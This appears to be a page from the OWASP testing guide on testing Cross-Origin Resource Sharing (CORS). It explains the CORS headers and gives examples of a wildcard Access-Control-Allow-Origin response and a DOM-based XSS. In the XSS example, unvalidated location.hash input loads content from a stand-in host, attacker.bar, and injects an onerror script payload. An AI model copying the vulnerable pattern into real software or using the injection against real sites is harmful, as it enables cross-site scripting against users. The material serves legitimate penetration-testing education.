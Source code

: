 # Testing for Cross Origin Resource Sharing

## Summary

[Cross origin resource sharing](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing) (CORS) is a mechanism that enables a web browser to perform cross-domain requests using the XMLHttpRequest L2 API in a controlled manner. In the past, the XMLHttpRequest L1 API only allowed requests to be sent within the same origin as it was restricted by the same origin policy.

Cross-origin requests have an origin header that identifies the domain initiating the request and is always sent to the server. CORS defines the protocol to use between a web browser and a server to determine whether a cross-origin request is allowed. HTTP [headers](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing#Headers) are used to accomplish this.

The [W3C CORS specification](https://www.w3.org/TR/cors/) mandates that for non simple requests, such as requests other than GET or POST or requests that uses credentials, a pre-flight OPTIONS request must be sent in advance to check if the type of request will have a bad impact on the data. The pre-flight request checks the methods and headers allowed by the server, and if credentials are permitted. Based on the result of the OPTIONS request, the browser decides whether the request is allowed or not.

### Origin & Access-Control-Allow-Origin

The origin header is always sent by the browser in a CORS request and indicates the origin of the request. The origin header can not be changed from JavaScript however relying on this header for Access Control checks is not a good idea as it may be spoofed outside the browser, so you still need to check that application-level protocols are used to protect sensitive data.

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.

From a penetration testing perspective you should look for insecure configurations as for example using a `*` wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed. Other insecure example is when the server returns back the origin header without any additional checks, what can lead to access of sensitive data. Note that this configuration is very insecure, and is not acceptable in general terms, except in the case of a public API that is intended to be accessible by everyone.

### Access-Control-Request-Method & Access-Control-Allow-Method

The Access-Control-Request-Method header is used when a browser performs a preflight OPTIONS request and let the client indicate the request method of the final request. On the other hand, the Access-Control-Allow-Method is a response header used by the server to describe the methods the clients are allowed to use.

### Access-Control-Request-Headers & Access-Control-Allow-Headers

These two headers are used between the browser and the server to determine which headers can be used to perform a cross-origin request.

### Access-Control-Allow-Credentials

This header as part of a preflight request indicates that the final request can include user credentials.

### Input Validation

XMLHttpRequest L2 (or XHR L2) introduces the possibility of creating a cross-domain request using the XHR API for backwards compatibility. This can introduce security vulnerabilities that in XHR L1 were not present. Interesting points of the code to exploit would be URLs that are passed to XMLHttpRequest without validation, specially if absolute URLS are allowed because that could lead to code injection. Likewise, other part of the application that can be exploited is if the response data is not escaped and we can control it by providing user-supplied input.

### Other Headers

There are other headers involved like Access-Control-Max-Age that determines the time a preflight request can be cached in the browser, or Access-Control-Expose-Headers that indicates which headers are safe to expose to the API of a CORS API specification, both are response headers specified in the CORS W3C document.

## How to Test

A tool such as [OWASP Zed Attack Proxy Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project) can enable testers to intercept HTTP headers, which can reveal how CORS is used. Testers should pay particular attention to the origin header to learn which domains are allowed. Also, manual inspection of the JavaScript is needed to determine whether the code is vulnerable to code injection due to improper handling of user supplied input. Below are some examples:

### Example 1: Insecure Response with Wildcard `*` in Access-Control-Allow-Origin

Request (note the 'origin' header:)

```txt
GET http://attacker.bar/test.php HTTP/1.1
Host: attacker.bar
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/CORSexample1.html
Origin: http://example.foo
Connection: keep-alive
```

Response (note the 'Access-Control-Allow-Origin' header:)

```txt
HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 18:57:53 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.4.4-14+deb7u3
Access-Control-Allow-Origin: *
Content-Length: 4
Keep-Alive: timeout=15, max=99
Connection: Keep-Alive
Content-Type: application/xml

[Response Body]
```

### Example 2: Input Validation Issue: XSS with CORS

This code makes a request to the resource passed after the `#` character in the URL, initially used to get resources in the same server.

Vulnerable code:

```html
<script>
    var req = new XMLHttpRequest();

    req.onreadystatechange = function() {
        if(req.readyState==4 && req.status==200) {
            document.getElementById("div1").innerHTML=req.responseText;
        }
    }

    var resource = location.hash.substring(1);
    req.open("GET",resource,true);
    req.send();
</script>

<body>
    <div id="div1"></div>
</body>
```

For example, a request like this will show the contents of the profile.php file:

`http://example.foo/main.php#profile.php`

Request and response generated by this URL:

```html
GET http://example.foo/profile.php HTTP/1.1
Host: example.foo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 18:20:48 GMT
Server: Apache/2.2.16 (Debian)
X-Powered-By: PHP/5.3.3-7+squeeze17
Vary: Accept-Encoding
Content-Length: 25
Keep-Alive: timeout=15, max=99
Connection: Keep-Alive
Content-Type: text/html

[Response Body]
```

Now, as there is no URL validation we can inject a remote script, that will be injected and executed in the context of the example.foo domain, with a URL like this:

`http://example.foo/main.php#http://attacker.bar/file.php`

Request and response generated by this URL:

```txt
GET http://attacker.bar/file.php HTTP/1.1
Host: attacker.bar
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/main.php
origin: http://example.foo
Connection: keep-alive

HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 19:00:32 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.4.4-14+deb7u3
Access-Control-Allow-Origin: *
Vary: Accept-Encoding
Content-Length: 92
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```

